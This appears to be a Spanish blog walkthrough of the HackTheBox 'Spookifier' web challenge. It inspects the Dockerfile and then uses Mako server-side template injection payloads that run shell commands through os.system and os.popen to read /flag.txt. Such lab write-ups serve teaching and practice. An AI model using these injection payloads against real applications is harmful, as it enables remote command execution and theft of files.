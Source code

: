 ```yaml
---
title: "HackTheBox - Challenge Spookifier"
summary: "Vamos a ver el paso a paso detallado de como ir resolviendo el challenge:"
date: "2025-04-01"
draft: false
tags:
- Tutorial
- HackTheBox
- Challenge
- Web
---
```


### Paso a paso:


- Enciendo el entorno virtual y entro a la direccion que me proporcionan: 
    ![Test Relative Image](./imagen.png)

<div style="height: 5px;"></div>

- Descargo el archivo .zip que me dan para el ejercicio.

<div style="height: 5px;"></div>

- Lo muevo a mi carpeta de trabajo.

<div style="height: 5px;"></div>

- Y lo descomprimo usando unzip, acordarse que la contrasena siempre va a ser 
    "hackthebox": 
    ![Test Relative Image](./imagen2.png)

<div style="height: 5px;"></div>

- Entro al archivo y empiezo a mirar:
```js
┌──(root㉿kali)-[/home/joaquin/HTB/Challenge]
└─# ls
crypto_alphascii_clashing  plasma  rev_graverobber  rev_spookypass  web_armaxis  web_spookifier
                                                                                                                             
┌──(root㉿kali)-[/home/joaquin/HTB/Challenge]
└─# cd web_spookifier
                                                                                                             
┌──(root㉿kali)-[/home/joaquin/HTB/Challenge/web_spookifier]
└─# ls
build-docker.sh  challenge  config  Dockerfile  flag.txt
```

<div style="height: 5px;"></div>

- En dockerfile veo que me dice que la flag esta en el directorio /flag.txt:
```js
┌──(root㉿kali)-[/home/joaquin/HTB/Challenge/web_spookifier]
└─# cat Dockerfile   
FROM python:3.8-alpine

RUN apk add --no-cache --update supervisor gcc
# Upgrade pip
RUN python -m pip install --upgrade pip

# Install dependencies
RUN pip install Flask==2.0.0 mako flask_mako Werkzeug==2.0.0

# Copy flag
COPY flag.txt /flag.txt

# Setup app
RUN mkdir -p /app

# Switch working environment
WORKDIR /app

# Add application
COPY challenge .

# Setup supervisor
COPY config/supervisord.conf /etc/supervisord.conf

# Expose port the server is reachable on
EXPOSE 1337

# Disable pycache
ENV PYTHONDONTWRITEBYTECODE=1

# start supervisord
ENTRYPOINT ["/usr/bin/supervisord", "-c", "/etc/supervisord.conf"] 
```

<div style="height: 5px;"></div>

- Además veo que usa python y una distro de python que es mako.

<div style="height: 5px;"></div>

- Busco PayloadsAllTheThings, que es un directorio de payloads.

<div style="height: 5px;"></div>

- Entro a Server Side Template Injection y busco una versión mas vieja para 
    que este mas ordenado.

<div style="height: 5px;"></div>

- Empiezo a probar payloads y descubro que:
    ${self.module.runtime.util.os.system("id")}

<div style="height: 5px;"></div>

- Pareciera funcionar y le cambio por :
    ${self.module.runtime.util.os.popen('id').read()}

<div style="height: 5px;"></div>

- Como en dockerfile decia que la flag estaba en el directorio /flag le hago un cat:
    ${self.module.runtime.util.os.popen('cat /flag.txt').read()}

<div style="height: 5px;"></div>

- Y descubro la flag:
    ![Test Relative Image](./imagen5.png)